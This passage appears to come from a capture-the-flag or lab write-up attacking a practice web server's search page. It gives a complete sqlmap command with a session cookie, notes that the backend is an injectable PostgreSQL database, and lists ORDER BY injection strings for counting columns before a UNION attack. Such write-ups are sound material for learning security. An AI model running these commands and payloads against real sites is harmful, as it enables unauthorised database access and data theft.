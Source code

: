 ### SQLmap

- Here is the syntax. Sqlmap also needed cookie for this to work

```bash
sqlmap.py -u 'http://10.10.10.46/dashboard.php?search=sunny' --cookie="PHPSESSID=q14pc524upvp0hspqoh1n5nq8p" --batch
```

![PostgreSQL database](10.png "PostgreSQL database")

- This server is using PostgreSQL database
- Sqlmap also found vulnerability can lead into injections

![sqlmap payload](11.png "sqlmap payload")

### UNION select
- Source
  - [SQLinjection UNION attacks[PortSwigger]](https://portswigger.net/web-security/sql-injection/union-attacks)

### Finding Columns for attack
- Finding how many columns for SQL injection attack
- By inserting this into `search field`:
  -  `' ORDER BY 1--`
  -  `' ORDER BY 2--`
  -  `' ORDER BY 3--` .. and so on.
  	-  Until you've found an error.
